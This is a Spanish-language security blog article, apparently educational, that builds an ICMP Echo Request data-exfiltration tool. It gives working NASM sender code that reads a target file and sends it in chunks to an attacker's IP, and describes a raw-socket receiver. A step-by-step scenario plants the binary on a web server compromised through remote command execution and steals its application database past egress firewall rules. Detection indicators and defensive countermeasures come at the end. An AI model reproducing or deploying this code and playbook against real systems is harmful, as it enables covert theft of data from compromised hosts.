








<div class="article-header">
<h1>Data Exfiltration via ICMP Echo Request</h1>
<span class="article-meta">03/11/2026 · 60 min</span>
</div>

Exfiltración de datos a través de ICMP Echo Request.

---

!!! warning "Uso responsable"
    El contenido de este sitio web se publica **exclusivamente con fines educativos e informativos**. El autor **no promueve, respalda ni se hace responsable** del uso indebido o ilegal de la información aquí expuesta. Cualquier acción realizada a partir de este contenido debe llevarse a cabo **únicamente** en entornos controlados, sistemas propios o **con autorización expresa y verificable** del propietario del sistema.

## Introducción

En este artículo se desarrolla, paso a paso, un mecanismo para exfiltrar información a través del protocolo ICMP. La implementación se divide en dos componentes: un **emisor**, ejecutado en la máquina víctima, que incorpora los datos que se desean extraer en mensajes ICMP Echo Request y un **receptor**, situado en la máquina atacante, que procesa los mensajes entrantes para reensamblar la información transmitida.

==El código fuente está disponible [aquí](https://github.com/0x574R/ICMP-Exfil-x86-64).==

## ICMP Echo

ICMP (*Internet Control Message Protocol*, RFC 792) es el protocolo de control que acompaña a IP. Entre sus mensajes están el **Echo Request** (tipo 8) y el **Echo Reply** (tipo 0). Cuando un host recibe un Echo Request, su pila de red responde con un Echo Reply que **reproduce íntegramente el campo de datos recibido**.

Este campo de datos es **opaco para el protocolo**. ICMP no le asigna estructura ni significado, solo exige que el Echo Reply lo devuelva sin alterar. Es, por tanto, un posible medio de transporte para nuestros bytes.

Un mensaje ICMP Echo consta de una **cabecera fija de 8 bytes** seguida del campo de datos de longitud variable:

<div class="code-centered" markdown>

```c
   0                   1                   2                   3
   0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1   bits
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  |     Type      |     Code      |           Checksum            |
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  |          Identifier           |        Sequence Number        |
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
  |                    Data (variable length)                     |
  +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

</div>

| Campo | Bytes | Qué indica | Valor en el Echo Request | Valor en el Echo Reply |
|-------|---------|------------|--------------------------|------------------------|
| Type | 0 | Tipo de mensaje ICMP. Diferencia un Echo Request o un Echo Reply del resto de mensajes ICMP. | 8 (Echo Request) | 0 (Echo Reply) |
| Code | 1 | Un subtipo dentro del tipo. Para los mensajes Echo no se emplea. | 0 | 0 |
| Checksum | 2-3 | Suma de verificación de todo el mensaje ICMP (cabecera y datos), sirve para detectar corrupción en el tránsito. | Calculado por el Kernel | Recalculado por el Kernel del host remoto |
| Identifier | 4-5 | Identifica al emisor, el host remoto lo refleja en el Echo Reply y sirve para entregar la respuesta al socket que originó la petición. | Escrito por el Kernel | Reflejado (el de la petición) |
| Sequence Number | 6-7 | Numera cada Echo dentro de una misma serie, el Echo Reply lo devuelve, lo que permite emparejar cada respuesta con su petición y detectar pérdidas. | Definido por el emisor (por ejemplo, contador incremental en orden de red) | Reflejado (el de la petición) |

### Descomposición del paquete

La misma cabecera (8 bytes), ahora campo a campo y con su desplazamiento (offset) en bytes:

<div class="code-centered" markdown>

```c
      0        1        2        3        4        5        6        7
  +--------+--------+--------+--------+--------+--------+--------+--------+
  |  Type  |  Code  |    Checksum     |   Identifier    | Sequence Number |
  +--------+--------+--------+--------+--------+--------+--------+--------+
```

</div>

Tomando el valor a exfiltrar `deadbeef` (4 bytes), el búfer completo que el programa armará antes de transmitir ocupará 12 bytes (cabecera + datos):

<div class="code-centered" markdown>

```c
  cabecera:
    [0]       08          Type             // Definido por el programa
    [1]       00          Code             // Definido por el programa
    [2..3]    00 00       Checksum         // Rellenado por el kernel
    [4..5]    00 00       Identifier       // Rellenado por el kernel
    [6..7]    00 01       Sequence Number  // Definido por el programa
  datos:
    [8..11]   de ad be ef   Data           // Definido por el programa
```

</div>

Cuando el host destino reciba el Echo Request, su pila de red responderá con un Echo Reply (tipo 0). **La respuesta conservará la misma estructura de cabecera y, sobre todo, reproducirá íntegramente el campo de datos byte por byte**. Este mecanismo permite comprobar la integridad en la ida y en la vuelta.

!!! note ""
    La cabecera del Echo Reply tiene la misma disposición de 8 bytes que la petición, únicamente cambian los valores, no los campos ni sus posiciones.

## Restricciones del canal

El tamaño máximo del campo de datos está limitado por la MTU de la interfaz de red. Además, dado que el paquete ICMP se encapsula en un paquete IP, es necesario tener en cuenta las cabeceras de ambos protocolos.

<div class="code-centered" markdown>

```
Datos = MTU − Cabecera IP − Cabecera ICMP
Datos = 1500 − 20 − 8 = 1472 bytes (max)
```

</div>

Superar este límite provoca fragmentación IP.

## Sockets de datagramas ICMP

Construir un mensaje ICMP exige, en general, un raw socket (`SOCK_RAW`), que requiere el privilegio `CAP_NET_RAW`. Existe, sin embargo, una interfaz de menor privilegio, el **socket de datagramas ICMP**, que se solicita con `socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP)`. Es una interfaz deliberadamente restringida, ya que solamente trabaja con mensajes Echo y, por ende, su uso suele estar autorizado para procesos no privilegiados.

La autorización la gobierna el parámetro del kernel `net.ipv4.ping_group_range`, que define el rango de identificadores de grupo (GID) habilitados:

```bash
cat /proc/sys/net/ipv4/ping_group_range
0    2147483647
```

Un rango `0 2147483647` habilita a todos los grupos. Un rango `1 0` está vacío (mínimo mayor que el máximo) y no habilita a nadie, en ese caso, `socket` fallará con `EACCES` (errno 13).

Es posible modificar el valor de la siguiente forma:

```bash
sysctl -w net.ipv4.ping_group_range="0 2147483647"
```

El socket de datagramas ICMP presenta diferencias respecto al raw socket y conviene conocerlas antes de diseñar el programa:

| Aspecto | Raw Socket | Socket de datagramas ICMP |
|---------|-----------|---------------------------|
| Privilegio requerido | `CAP_NET_RAW` | Ninguno (sujeto a `ping_group_range`) |
| Checksum ICMP | Calculado por el Emisor | Calculado por el Kernel |
| Campo identificador | Fijado por el Emisor | Escrito por el Kernel (clave de demultiplexación) |
| Recepción | Incluye la cabecera IP | Sin cabecera IP, comienza en la cabecera ICMP |
| Mensajes | Cualquier tipo de mensaje ICMP | Solo Echo Request (envío) y Echo Reply dirigidos a ese socket (recepción) |

## Flujo de la herramienta

El objetivo es construir un programa que lea un fichero del sistema de archivos local, lo fragmente en bloques de tamaño fijo y los transmita dentro del campo de datos de los mensajes ICMP Echo Request. En el extremo receptor, se capturan los paquetes, se indexan por su Sequence Number y se reconstruye el fichero original a partir del orden de los fragmentos.

El diseño se divide en dos componentes:

- El **emisor** (NASM), se ejecuta en el sistema objetivo.
- El **receptor** (Python), se ejecuta en la máquina del atacante.

### Flujo del emisor

## Implementación del emisor

{ .img-large .no-border }

### Estructuras de datos

El programa define las siguientes estructuras en la sección `.data`:

```nasm
section .data    
    
    pathname db '/etc/services', 0                ; Pathname
    size_block dq 2                               ; Size of each data chunk (bytes)

    seq_n dw 1                                    ; Current sequence number

    req:
        dq 0              ; tv_sec  = 0 seconds
        dq 10000000        ; tv_nsec = 10000000 nanoseconds (10 ms)


    echo_request_header:
        db 8                     ; Type
        db 0                     ; Code
        dw 0                     ; Checksum
        dw 0                     ; Identifier 
        dw 0x0000                ; Sequence Number (net order)


    sockaddr_in:
        dw 2                ; sin_family = AF_INET
        dw 0                ; sin_port = 0
        dd 0x00000000       ; sin_addr   = 0.0.0.0 (accepts from all interfaces)
        dq 0                ; sin_zero (padding) 


section .bss

        icmp_request resb 1480       ; Full ICMP packet buffer (header + payload)
        file_size resq 1             ; Total file size in bytes
        buff resq 1                  ; Pointer to heap-allocated read buffer
```

- **`pathname`** es la ruta del fichero a exfiltrar, terminada en byte nulo.
- **`size_block`** determina el tamaño de cada fragmento. Determina cuántos bytes del fichero se incluyen como campo de datos en cada paquete ICMP.
- **`seq_n`** hace referencia al Sequence Number del próximo paquete a enviar. Arranca en 1 y se incrementa tras cada envío. El receptor lo usa como clave de ordenación para reconstruir el fichero.
- **`req`** es un `struct timespec` usado para introducir un retardo entre paquetes, evitando que el kernel aplique rate limiting sobre los mensajes ICMP salientes.
- **`echo_request_header`** es la plantilla de la cabecera ICMP (8 bytes). El Type (8 = Echo Request) y el Code (0) son fijos. El Checksum y el Identifier se dejan a cero porque el kernel los rellena automáticamente al usar un socket `SOCK_DGRAM`. El Sequence Number se sobreescribirá posteriormente en cada envío.
- **`sockaddr_in`** identifica el destino de los paquetes. `sin_family` indica IPv4, `sin_port` es 0 (ICMP no usa puertos) y `sin_addr` contiene la dirección IP destino.

En la sección `.bss` se reservan los buffers sin inicializar:

- **`icmp_request`** (1480 bytes) es el buffer donde se ensamblará el paquete ICMP completo (8 bytes de cabecera + hasta 1472 bytes de datos).
- **`file_size`** almacena el tamaño total del fichero a transmitir.
- **`buff`** almacena la dirección de un buffer en el heap. Es la zona intermedia donde se deposita cada bloque leído del fichero antes de copiarlo al paquete ICMP.

### Apertura del fichero y cálculo del tamaño

Se abre el fichero en modo solo lectura con la syscall `open`, devolviendo el file descriptor que lo identificará durante el resto del programa:

```nasm
    ; OPEN
    mov rax, 2
    lea rdi, [rel pathname]
    xor rsi, rsi                 ; O_RDONLY = 0
    xor rdx, rdx                 ; mode = 0
    syscall

    mov r12, rax ; Save file descriptor
```

El tamaño del fichero se obtiene desplazando el cursor de lectura del file descriptor al final con `lseek`. El offset resultante corresponde al tamaño total en bytes:

```nasm
    ; LSEEK
    mov rax, 8
    mov rdi, r12
    xor rsi, rsi        ; offset = 0
    mov rdx, 2          ; SEEK_END
    syscall

    lea r13, [rel file_size]
    mov [r13], rax                 ; Store file size
```

### Reserva de memoria

El programa reserva espacio en el heap manipulando el program break con `brk`:

```nasm
    ;BRK
    mov rax, 12
    xor rdi, rdi                   ; Query current program break
    syscall

    lea r13, [rel buff]
    mov [r13], rax                   ; Store heap buffer address

    mov r14, [rel size_block]
    mov rax, 12
    mov rdi, r13
    add rdi, r14                      ; Extend break by size_block bytes
    syscall
```

La primera invocación consulta el program break actual. La segunda lo extiende `size_block` bytes. De esta forma, tenemos un buffer en el heap donde colocar `size_block` bytes del fichero a exfiltrar.

Tras reservar la memoria, el cursor del fichero se reestablece al inicio:

```nasm
    ; LSEEK
    mov rax, 8
    mov rdi, r12
    xor rsi, rsi        ; offset = 0
    xor rdx, rdx        ; SEEK_SET
    syscall
```

### Creación del socket

Se hace uso de `socket` para la creación del socket ICMP:

```nasm
    ; SOCKET
    mov rax, 41
    mov rdi, 2    ; AF_INET = 2 =  IPv4
    mov rsi, 2    ; SOCK_DGRAM = UPD Datagrams
    mov rdx, 1    ; IPPROTO_ICMP = ICMP Protocol
    syscall 

    ; rax < 0 error
    ; rax > FD

    mov r13, rax   ; Save socket fd
```

El uso de `SOCK_DGRAM` con `IPPROTO_ICMP` permite el envío de mensajes Echo sin requerir de la capability `CAP_NET_RAW`, delegando al kernel el cálculo del Checksum y la escritura del Identifier.

### Bucle de lectura y envío

El bucle principal lee el fichero por bloques, construye el paquete ICMP y lo transmite:

```nasm
xor r14,r14
read_loop:

    ;READ
    mov rax, 0
    mov rdi, r12                    ; FD
    lea rsi, [rel buff]             ; Destination buffer
    mov rdx, [rel size_block]       ; Bytes to read
    syscall 
    add r14, rax                    ; Accumulate total bytes read

    lea r15, [rel buff]            
```

Cada iteración lee hasta `size_block` bytes del fichero. La última lectura puede devolver un valor inferior de bytes si no quedan suficientes por leer, con lo que el resto del bloque se mantendría a cero.

#### Construcción del paquete

La función `header_creation` copia los 8 bytes de la cabecera ICMP al inicio del paquete a enviar (`icmp_request`):

```nasm
    header_creation:
        lea rsi, [rel echo_request_header]
        lea rdi, [rel icmp_request]
        mov rcx, 1     
        cld
        rep movsq
        ret
```

```nasm
data:
    call header_creation                ; Create ICMP header
                                        
                                        ; Create ICMP Data
    mov rsi, r15
    lea rdi, [rel icmp_request + 8]
    mov rcx, [rel size_block]     
    cld
    rep movsb
```

A continuación, se sustituye el valor del Sequence Number en la cabecera con el valor que le corresponde al envío actual. El campo debe estar en network byte order (big-endian):

```nasm
    mov ax, [rel seq_n]             ; Load current sequence number
    xchg al, ah                     ; Convert to network byte order (big-endian)
    mov word [rel echo_request_header + 6], ax
```

#### Retardo entre envíos

El kernel Linux aplica rate limiting a los mensajes ICMP salientes a través del parámetro `net.ipv4.icmp_ratelimit`. Sin un retardo entre envíos, el kernel descartará paquetes silenciosamente.

```nasm
    ; NANOSLEEP
    mov rax, 35
    lea rdi, [rel req]
    xor rsi, rsi
    syscall
```

#### Envío y control del bucle

La syscall `sendto` transmite el paquete completo `icmp_request` (cabecera de 8 bytes + `size_block` bytes de datos) al destino definido en `sockaddr_in`. El kernel añade automáticamente la cabecera IP (20 bytes), calcula el checksum ICMP y escribe el Identifier. Tras el envío, el Sequence Number se incrementa para el siguiente paquete.

```nasm
    ; SENDTO
    mov rax, 44
    mov rdi, r13                     ; Socket fd
    lea rsi, [rel icmp_request]      ; Packet buffer
    mov rdx, 8                       ; Total length = header
    add rdx, [rel size_block]        ; Total length = header + payload
    xor r10, r10                     ; Flags = 0
    lea r8, [rel sockaddr_in]        ; Destination address
    mov r9, 16                       ; Address struct size
    syscall
    
    inc word [rel seq_n]
```

Antes de volver al inicio del bucle, el buffer de lectura se rellena con ceros para evitar que datos residuales contaminen al siguiente bloque (que puede ser más corto que `size_block`):

```nasm
    lea rdi, [rel buff]
    mov rcx, [rel size_block]   
    xor al, al                    ; Fill value = 0
    cld
    rep stosb          

    cmp r14, [file_size]           
    jl read_loop
```

Cuando se alcanza el tamaño total del fichero, el programa sale del bucle, cierra el file descriptor y termina:

```nasm
    ; CLOSE
    mov rax, 3
    mov rdi, r12
    syscall

    ; EXIT
    mov rax, 60
    xor rdi, rdi
    syscall
```

## Flujo del receptor

El receptor se ejecuta en la máquina del atacante. Utiliza un raw socket (`SOCK_RAW, IPPROTO_ICMP`) para capturar los Echo Request entrantes, ya que un socket de datagramas ICMP solo entrega los Echo Reply correspondientes a los Echo Request enviados por el propio socket. El raw socket requiere privilegios (`CAP_NET_RAW`).

Para cada paquete recibido, el receptor calcula la longitud real de la cabecera IP (campo IHL), salta al inicio de la cabecera ICMP, filtra por tipo 8 y código 0, extrae el Sequence Number en network byte order y almacena el payload en un diccionario indexado. Cuando transcurre un período de inactividad sin recibir nuevos paquetes, se reconstruye el fichero concatenando los payloads en orden ascendente del Sequence Number y se eliminan los bytes nulos finales del último bloque.

El receptor soporta múltiples tandas de transmisión. Si se pierden paquetes, se puede relanzar el emisor y los huecos en el diccionario se van rellenando en cada ejecución.

## Caso Práctico

Se ha comprometido un servidor web explotando una vulnerabilidad de ejecución remota de comandos. Las reglas del firewall permiten el tráfico entrante al servicio web pero bloquean las conexiones TCP y UDP salientes, lo que impide establecer una reverse shell o exfiltrar datos por canales convencionales. Sin embargo, el tráfico ICMP saliente está permitido ya que el equipo lo utiliza para monitorización de disponibilidad.

El objetivo es exfiltrar la base de datos de la aplicación (`app.db`), un fichero binario superior al megabyte que no puede volcarse a través de la respuesta HTTP.

### Preparación

Se edita `ping.asm` antes de compilar, estableciendo la ruta del fichero objetivo y la dirección IP del atacante como destino:

```nasm
    pathname db '/var/www/html/app.db', 0
    size_block dq 256

...

    sockaddr_in:
        dw 2
        dw 0
        dd 0x1212A8C0       ; IP del atacante en little-endian
        dq 0
```

{ .img-centered width=920 }

Se compila el emisor:

```bash
nasm -f elf64 ping.asm -o ping.o
ld ping.o -o ping
```

### Transferencia

Se transfiere el binario compilado a la máquina comprometida a través de la vulnerabilidad RCE (codificado en Base64 para transmitirlo por HTTP):

```bash
# Attacker Machine

# Encode
base64 ping
```

{ .img-centered width=920 }

```bash
# Victim Machine

# Store the executable in /tmp
echo '<ping_base64>' | base64 -d > /tmp/ping

# Grant execute permissions to the file
chmod +x /tmp/ping
```

### Despliegue

En la máquina del atacante se lanza el receptor:

```bash
sudo python3 pong.py -o app.db
```

Una vez lanzado el receptor, se lanza el emisor en la máquina objetivo:

```bash
/tmp/ping
```

<figure markdown>
{ .img-large }
<figcaption>Captura en Wireshark del tráfico ICMP.</figcaption>
</figure>

### Verificación

Cuando en la iteración N no se detectan paquetes nuevos, se interrumpe con <kbd>Ctrl</kbd>+<kbd>C</kbd> para reconstruir el fichero:

{ .img-centered width=920 }

{ .img-centered width=920 }

Se verifica la integridad del fichero exfiltrado comparando los hashes:

```bash
# Victim machine (via RCE)
md5sum /var/www/app/app.db

# Attacker machine
md5sum app.db
```

{ .img-centered width=920 }

{ .img-centered width=920 }

El fichero ha sido exfiltrado sin establecer ninguna conexión TCP o UDP, utilizando únicamente tráfico ICMP.

## Detección

La técnica queda catalogada en MITRE ATT&CK bajo las técnicas **T1095** (*Non-Application Layer Protocol*) y **T1048** (*Exfiltration Over Alternative Protocol*).

Los indicadores que un sistema de detección puede detectar son los siguientes:

- **Tamaño del payload**: los mensajes ICMP Echo generados por la utilidad `ping` de Linux transportan 56 bytes de datos por defecto (48 de padding tras los 8 bytes del timestamp). Los de Windows transportan 32 bytes con un patrón alfabético reconocible. Un flujo sostenido de Echo Requests de mayor tamaño se desvía de la baseline.
- **Volumen y frecuencia**: un `ping` legítimo envía un paquete por segundo. El emisor, incluso con el retardo de 10 milisegundos, genera un tráfico enormemente superior (aunque podría ajustarse e incluso, aplicar un jitter). Las soluciones NDR (Network Detection and Response) correlacionan el número de Echo Requests por unidad de tiempo con la variación en el tamaño de sus payloads para identificar actividad de tunneling.
- **Entropía del payload**: el contenido de un `ping` legítimo sigue un patrón predecible (bytes incrementales en Linux, secuencia alfabética en Windows). Los datos exfiltrados presentan una distribución de bytes diferente, que incrementarían la entropía del payload. Un IDS que calcule la entropía podría identificar la exfiltración.
- **Patrón temporal uniforme**: un retardo constante entre paquetes (10 ms en esta implementación) genera un patrón temporal que destaca frente al tráfico ICMP orgánico. Introducir un jitter aleatorio entre envíos dificulta la detección basada en el análisis temporal.

## Contramedidas defensivas

Desde la perspectiva del defensor, las medidas más efectivas son:

- **Rate limiting de mensajes ICMP salientes**: el parámetro `net.ipv4.icmp_ratelimit` del kernel Linux limita la tasa de envío de mensajes ICMP salientes. Un valor restrictivo (por ejemplo, un mensaje por segundo) reduce drásticamente el intercambio de información.
- **Bloqueo de mensajes ICMP hacia fuera del perímetro**: muchos entornos corporativos no necesitan Echo Requests hacia el exterior. Bloquearlos elimina este vector.
- **Inspección del mensaje ICMP**: reglas IDS que alerten sobre Echo Requests con tamaños superiores a un umbral (64 bytes cubre los `ping` legítimos de ambas plataformas).
- **Monitorización con eBPF**: los programas eBPF enganchados al subsistema de red (`TC` o `XDP`) pueden inspeccionar los paquetes ICMP en el kernel antes de que abandonen el host, permitiendo la detección en el punto de origen.

## Agradecimientos

Gracias por llegar hasta aquí.

Si encuentras errores o quieres mejorar/ampliar el artículo, el contenido del blog está abierto a Pull Requests. Toda contribución es bienvenida.

¡Nos vemos en el próximo artículo! ;)
